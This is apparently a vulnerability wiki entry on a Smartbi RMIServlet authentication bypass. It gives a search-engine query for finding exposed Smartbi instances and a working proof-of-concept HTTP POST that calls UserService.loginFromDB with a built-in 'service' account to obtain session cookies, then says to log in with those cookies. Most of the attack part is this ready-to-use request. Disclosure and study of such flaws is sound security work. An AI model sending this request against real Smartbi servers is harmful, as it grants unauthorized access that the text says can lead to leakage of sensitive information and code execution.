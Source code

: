 # smartbi RMIServlet login bypass vulnerability

## Vulnerability Description

Smartbi will have several users built-in when installing. When using a specific interface, it can bypass the user identity authentication mechanism to obtain their identity credentials, and then use the acquired identity credentials to call the background interface, which may lead to sensitive information leakage and code execution.

## Vulnerability Impact

- <span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">smartbi</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="SMARTBI"</span>

## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697869616391-78bb3b63-9a12-4276-a441-8d9c37cd939f.png)

Verify POC

```php
POST /vision/RMIServlet HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded

className=UserService&methodName=loginFromDB&params=["service","0a"]
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697869636461-ab390dbf-5dd0-4be9-88dc-e94cd8fb0801.png)

Log in via the obtained cookies